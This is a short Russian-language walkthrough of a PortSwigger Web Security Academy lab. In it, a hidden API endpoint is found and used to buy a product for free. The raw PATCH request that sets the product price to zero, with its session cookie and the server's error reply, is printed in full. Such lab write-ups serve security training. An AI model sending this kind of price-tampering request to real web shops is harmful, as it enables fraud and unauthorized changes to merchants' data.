 Используйте скрытую конечную точку API, чтобы купить **легкую кожаную куртку l33t** . Вы можете войти в свою учетную запись, используя следующие учетные данные: `wiener:peter`.

## Дано

есть скрытая конечная точка API.
учётка `wiener:peter`

## Задача

купить **легкую кожаную куртку l33t** 

# Решение

Нашли метод PATCH и добавили нагрузку виде json ответ от GET
```
PATCH /api/products/1/price HTTP/2
Host: 0af800e20338b16e8180496e00b300bf.web-security-academy.net
Content-Type: application/json; charset=utf-8
Cookie: session=yJNjQ5gvKi2WRFswK6x1jaw74utx0cEu
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: ru-RU,ru;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Referer: https://0af800e20338b16e8180496e00b300bf.web-security-academy.net/product?productId=1
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Sec-Gpc: 1
Priority: u=4
Te: trailers
Content-Length: 17

{"price":"$0.00"}
```
Ответ от сервера
```
{"type":"ClientError","code":400,"error":"'price' parameter must be a valid non-negative integer"}
```

Переписали массив
```
{"price":0}
```

Лаба решена